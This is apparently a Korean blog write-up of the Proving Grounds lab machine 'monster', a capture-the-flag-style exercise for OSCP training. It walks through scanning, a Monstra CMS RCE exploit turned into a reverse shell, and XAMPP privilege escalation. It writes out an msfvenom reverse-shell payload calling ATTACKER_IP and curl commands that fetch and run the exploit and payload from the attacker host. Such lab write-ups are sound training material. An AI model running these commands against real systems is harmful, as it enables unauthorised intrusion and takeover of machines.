---
layout: post
title:  "[PG][Windows] monster"
date:   2026-11-08 12:21:00 +09:00
featured: /assets/images/oscp-pg/windows/monster/image.png
categories: PG Windows
---## 정보 수집
nmap을 통해 포트 스캔을 수행함.
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.218.180 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap -p$ports -sC -sV -Pn 192.168.218.180
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-07 07:50 EDT
Nmap scan report for 192.168.218.180
Host is up (0.20s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
|_http-title: Mike Wazowski
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
|_ssl-date: TLS randomness does not represent time
|_http-title: Mike Wazowski
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MIKE-PC
|   NetBIOS_Domain_Name: MIKE-PC
|   NetBIOS_Computer_Name: MIKE-PC
|   DNS_Domain_Name: Mike-PC
|   DNS_Computer_Name: Mike-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2026-10-07T11:53:11+00:00
|_ssl-date: 2026-10-07T11:53:26+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=Mike-PC
| Not valid before: 2026-10-06T11:43:48
|_Not valid after:  2027-04-07T11:43:48
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-time: 
|   date: 2026-10-07T11:53:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.15 seconds
```

80포트 접근 시 Mike Wazowski라는 사용자의 정보를 확인이 가능했음.


Gobuster를 이용하여 경로 열거.
```
└─$ gobuster dir -u http://192.168.218.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.218.180
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 403) [Size: 1062]
/blog                 (Status: 301) [Size: 342] [--> http://192.168.218.180/blog/]
/assets               (Status: 301) [Size: 344] [--> http://192.168.218.180/assets/]
/examples             (Status: 503) [Size: 1062]
/Blog                 (Status: 301) [Size: 342] [--> http://192.168.218.180/Blog/]
/licenses             (Status: 403) [Size: 1207]
/Assets               (Status: 301) [Size: 344] [--> http://192.168.218.180/Assets/]
/*checkout*           (Status: 403) [Size: 1048]
/phpmyadmin           (Status: 403) [Size: 1207]
/webalizer            (Status: 403) [Size: 1207]
/*docroot*            (Status: 403) [Size: 1048]
/*                    (Status: 403) [Size: 1048]
/con                  (Status: 403) [Size: 1048]
```
/blog 경로에 접근하면 화면이 깨져있음.


"log in" 링크 클릭하면 http://monster.pg 도메인으로 리다이렉트 되는 것을 확인.


hosts 파일에 도메인 등록한 뒤 다시 페이지를 접근하면 정상적으로 페이지가 접근 됨.
```
└─$ echo "192.168.218.180 monster.pg" | sudo tee -a /etc/hosts
[sudo] password for kali: 
192.168.218.180 monster.pg
```


admin:wazowski 계정으로 로그인하면 로그인됨. 



## 초기 침투
searchsploit을 통해 monstra 3.0.4 버전 PoC코드 확인면 RCE 코드가 존재.
```
└─$ searchsploit monstra 3.0.4
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Monstra 3.0.4 - Stored Cross-Site Scripting (XSS)                    | php/webapps/51519.txt
Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote C | php/webapps/43348.txt
Monstra CMS 3.0.4 - Arbitrary Folder Deletion                        | php/webapps/44512.txt
Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload              | php/webapps/48479.txt
Monstra cms 3.0.4 - Persitent Cross-Site Scripting                   | php/webapps/44502.txt
Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)            | php/webapps/49949.py
Monstra CMS 3.0.4 - Remote Code Execution (RCE)                      | php/webapps/52038.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                       | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                       | php/webapps/44646.txt
Monstra-Dev 3.0.4 - Cross-Site Request Forgery (Account Hijacking)   | php/webapps/45164.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

52038 PoC 코드는 들여쓰기가 되어있지 않아서, github에 있는 소스코드 다운로드하여 사용.
```
└─$ wget https://raw.githubusercontent.com/wcheng729/Monstra-3.0.4-RCE/refs/heads/main/monstra-rce.py
--2026-10-07 10:21:07--  https://raw.githubusercontent.com/wcheng729/Monstra-3.0.4-RCE/refs/heads/main/monstra-rce.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1905 (1.9K) [text/plain]
Saving to: ‘monstra-rce.py’

monstra-rce.py            100%[====================================>]   1.86K  --.-KB/s    in 0s      

2026-10-07 10:21:07 (48.2 MB/s) - ‘monstra-rce.py’ saved [1905/1905]
```

PoC 코드에서 사용 명령어 예시 확인.


초기 코드 Web shell를 리버스 쉘로 수정.


PoC 코드 실행하면 url이 생성됨.
```
└─$ python monstra-rce.py http://monster.pg/blog/ admin wazowski
Logging in...
Login successful
Preparing shell...
Your shell is ready: http://monster.pg/blog//public/themes/default/o9z85.chunk.php
```

생성된 링크에 접근 시 netcat에 열어둔 리스너에 리버스쉘이 확인됨.



## 권한 상승
properties.ini 파일을 통해 XAMPP 버전 확인.(7.3.10)
```
PS C:\xampp> cat properties.ini
[General]
installdir=C:\xampp
base_stack_name=XAMPP
base_stack_key=
base_stack_version=7.3.10-1
base_stack_platform=windows-x64
[Apache]
apache_server_port=80
apache_server_ssl_port=443
apache_root_directory=/xampp/apache
apache_htdocs_directory=C:\xampp/htdocs
apache_domainname=127.0.0.1
apache_configuration_directory=C:\xampp/apache/conf
apache_unique_service_name=
[MySQL]
mysql_port=3306
mysql_host=localhost
mysql_root_directory=C:\xampp\mysql
mysql_binary_directory=C:\xampp\mysql\bin
mysql_data_directory=C:\xampp\mysql\data
mysql_configuration_directory=C:\xampp/mysql/bin
mysql_arguments=-u root -P 3306
mysql_unique_service_name=
[PHP]
php_binary_directory=C:\xampp\php
php_configuration_directory=C:\xampp\php
php_extensions_directory=C:\xampp\php\ext
```

searchsploit으로는 권한 상승 PoC 코드 50337를 확인했지만, 7.4.3버전만 조회됨.
```
└─$ searchsploit xampp        
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
XAMPP - 'Phonebook.php' Multiple Remote HTML Injection Vulnerabilitie | multiple/remote/25391.txt
XAMPP - Buffer Overflow POC                                           | windows/dos/51800.py
XAMPP - Insecure Default Password Disclosure                          | multiple/dos/25393.txt
XAMPP - WebDAV PHP Upload (Metasploit)                                | windows/remote/18367.rb
XAMPP 1.6.8 - Cross-Site Request Forgery (Change Administrative Passw | windows/remote/7384.txt
XAMPP 1.6.x - 'showcode.php' Local File Inclusion                     | multiple/webapps/33578.txt
XAMPP 1.6.x - Multiple Cross-Site Scripting Vulnerabilities           | multiple/remote/33577.txt
XAMPP 1.7.2 - Change Administrative Password                          | php/webapps/10391.txt
XAMPP 1.7.3 - Multiple Vulnerabilities                                | php/webapps/15370.txt
XAMPP 1.7.4 - Cross-Site Scripting                                    | windows/remote/36258.txt
XAMPP 1.7.7 - 'PHP_SELF' Multiple Cross-Site Scripting Vulnerabilitie | windows/remote/36291.txt
XAMPP 1.8.1 - 'lang.php?WriteIntoLocalDisk method' Local Write Access | php/webapps/28654.txt
XAMPP 3.2.1 & phpMyAdmin 4.1.6 - Multiple Vulnerabilities             | php/webapps/32721.txt
XAMPP 5.6.8 - SQL Injection / Persistent Cross-Site Scripting         | php/webapps/46424.html
XAMPP 7.4.3 - Local Privilege Escalation                              | windows/local/50337.ps1
XAMPP 8.2.4 - Unquoted Path                                           | windows/local/51585.txt
XAMPP Control Panel - Denial Of Service                               | windows/dos/40964.py
XAMPP Control Panel 3.2.2 - Buffer Overflow (SEH) (Unicode)           | windows/local/45828.py
XAMPP Control Panel 3.2.2 - Denial of Service (PoC)                   | windows_x86/dos/45419.py
XAMPP for Windows 1.6.0a - 'mssql_connect()' Remote Buffer Overflow   | windows/remote/3738.php
XAMPP for Windows 1.6.3a - Local Privilege Escalation                 | windows/local/4325.php
XAMPP for Windows 1.6.8 - 'cds.php' SQL Injection                     | windows/remote/32457.txt
XAMPP for Windows 1.6.8 - 'Phonebook.php' SQL Injection               | windows/remote/32460.txt
XAMPP for Windows 1.7.7 - Multiple Cross-Site Scripting / SQL Injecti | windows/remote/37396.txt
XAMPP for Windows 1.8.2 - Blind SQL Injection                         | windows/webapps/29292.txt
XAMPP Linux 1.6 - 'iart.php?text' Cross-Site Scripting                | linux/remote/32166.txt
XAMPP Linux 1.6 - 'ming.php?text' Cross-Site Scripting                | linux/remote/32165.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

exeploit db 페이지에서 접근하여 버전 범위 확인하면 해당 버전(7.3.10)의 xampp도 해당되는 것을 확인. 


경로를 C:\Users\Mike\Desktop\msf.exe로 수정.


msfvenom 툴을 사용하여 msf.exe 제작.
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > msf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

공격자 PC로부터 PoC코드와 악성 페이로드 다운로드 한 뒤 실행.
```
PS C:\Users\Mike\Desktop> curl.exe -f -o 50337.ps1 http://ATTACKER_IP/50337.ps1
PS C:\Users\Mike\Desktop> curl.exe -f -o msf.exe http://ATTACKER_IP/msf.exe
PS C:\Users\Mike\Desktop> . .\50337.ps1
```

그 후 netcat에 열어둔 리스너에 관리자 권한의 리버스쉘이 확인됨.

